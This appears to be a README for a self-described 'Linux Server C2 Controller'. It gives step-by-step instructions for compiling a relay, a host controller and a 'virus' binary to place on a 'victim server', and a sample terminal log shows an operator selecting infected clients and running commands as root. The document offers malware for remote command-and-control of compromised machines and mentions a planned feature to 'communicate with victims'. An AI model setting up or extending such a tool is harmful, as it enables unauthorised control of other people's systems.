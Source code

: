 # Linux Server C2 Controller



**Step 1:**

Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp as your server ipv4 address



**Step 2:**

Copy tcsl.cpp to your Linux Server

virus.cpp to your victim server

host.cpp to your local machine as control side

and then compile:

g++ tcsl.cpp -o tcsl

g++ host.cpp -o host

g++ virus.cpp -o server



**Step 3:**

Open terminals and run the command seperately:

./tcsl

Support any amounts of Clients' connections

the Host and Client is auto-recognized:

./virus

./host



**Step 4:**

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.



**Step 5:**

Enjoy your commands in the host terminal and control your client as terminal. 
#

# Test

Connected to the server.

No client connected.

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# hh

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.


┌──(root♪hr0g) - [~1]

└─# pwd

/home/kali/Desktop

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# whoami

root


┌──(root♪hr0g) - [~1]

└─# hs 2

Client 2 selected.

┌──(root♪hr0g) - [~2]

└─# hh

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~2]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'  

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─#

Hint: use 'chatmode' to communicate with victims(under development)

